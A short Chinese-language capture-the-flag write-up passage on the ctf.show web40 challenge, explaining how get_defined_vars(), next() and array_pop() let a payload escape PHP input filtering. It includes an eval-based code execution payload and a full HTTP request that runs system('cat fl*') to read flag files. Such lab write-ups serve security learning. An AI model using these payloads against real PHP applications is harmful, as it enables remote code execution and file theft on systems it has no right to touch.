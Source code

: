 ### 方法二：get_defined_vars()函数实现参数逃逸

参考Tianze师傅的方法

c=eval(array_pop(next(get_defined_vars())));//需要POST传入参数为1=system('tac fl*');

get_defined_vars() 返回一个包含所有已定义变量的多维数组。这些变量包括环境变量、服务器变量和用户定义的变量，例如GET、POST、FILE等等。

next()将内部指针指向数组中的下一个元素，并输出。

array_pop() 函数删除数组中的最后一个元素并返回其值。

``````
POST /?c=eval(array_pop(next(get_defined_vars()))); HTTP/1.1
Host: 9e89ade3-a873-47dc-93db-317b19fb8d8c.challenge.ctf.show
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close
Content-Length: 20
Content-Type: application/x-www-form-urlencoded

1=system('cat fl*');
``````

![web40_get_defined_vars](./image/web40_get_defined_vars.png)
